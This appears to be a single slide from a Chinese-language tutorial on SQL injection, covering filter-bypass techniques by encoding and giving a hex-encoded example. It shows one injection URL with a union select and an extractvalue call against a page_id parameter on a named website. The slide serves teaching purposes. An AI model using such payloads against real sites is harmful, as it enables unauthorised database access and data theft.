

SQL注入漏洞
5.3.1、 SQL绕过汇总
3、编码（url,hex，base64）
(2).十六进制编码
Powerun.org.cn /index.php?page_id=-15 union select 1,2,3,4,SELECT(extractvalue(0x3C613E6365706F3C2F613E,0x2f61))